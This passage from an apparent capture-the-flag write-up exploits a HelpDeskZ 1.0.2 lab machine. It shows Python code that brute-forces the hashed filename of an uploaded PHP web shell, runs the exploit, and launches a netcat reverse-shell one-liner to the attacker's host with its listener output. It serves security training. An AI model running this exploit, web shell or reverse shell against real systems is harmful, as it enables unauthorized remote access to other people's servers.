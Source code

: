     for x in range(0, 20*60):
        plaintext = fileName + str(currentTime - x)
        md5hash = hashlib.md5(plaintext).hexdigest()
        url = helpdeskzBaseUrl+md5hash+'.'+ext
        #print("checking " + url)
        response = requests.head(url)
        if response.status_code == 200:
            print "found!"
            print url
            sys.exit(0)
    
    print "Sorry, I did not find anything"
    

When I run it, passing in the upload path I found in the source, it finds my
shell:

    
    
    root@kali# ./exploit.py http://10.10.10.121/support/uploads/tickets/ cmd.php
    Helpdeskz v1.0.2 - Unauthenticated shell upload exploit
    found!
    http://10.10.10.121/support/uploads/tickets/30487f2924a0ae640ba2c0a54c9136f1.php
    

### Test WebShell

Now that I have a url, I’ll give it a spin:

    
    
    root@kali# curl http://10.10.10.121/support/uploads/tickets/30487f2924a0ae640ba2c0a54c9136f1.php?cmd=id
    uid=1000(help) gid=1000(help) groups=1000(help),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),114(lpadmin),115(sambashare)
    

Nice!

### Interactive Shell

Go with the old standby:

    
    
    root@kali# curl 'http://10.10.10.121/support/uploads/tickets/30487f2924a0ae640ba2c0a54c9136f1.php?cmd=rm+/tmp/f;mkfifo+/tmp/f;cat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.14.4+443+>/tmp/f'
    
    
    
    root@kali# nc -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.121.
    Ncat: Connection from 10.10.10.121:50042.
    /bin/sh: 0: can't access tty; job control turned off
    $ id
    uid=1000(help) gid=1000(help) groups=1000(help),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),114(lpadmin),115(sambashare)
    